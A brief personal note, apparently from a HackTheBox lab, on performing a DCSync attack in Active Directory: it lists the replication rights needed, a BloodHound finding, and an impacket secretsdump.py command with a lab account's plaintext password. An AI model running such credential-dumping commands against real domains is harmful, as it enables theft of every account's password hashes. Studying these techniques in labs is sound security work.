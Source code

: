 # DCSync
---------

- Required permissions:
	- Replicating Directory Changes
	- Replicating Directory Changes All


Using bloodhound look out for the following permission:
	The user SVC_LOANMGR@EGOTISTICAL-BANK.LOCAL has the DS-Replication-Get-Changes-All privilege on the domain EGOTISTICAL-BANK.LOCAL.


Using secretsdump.py:
```bash
python3 /opt/wintools/impacket/examples/secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
```


Granting an user the required rights to perform DC Sync Attack:
- get it form HTB-Forest
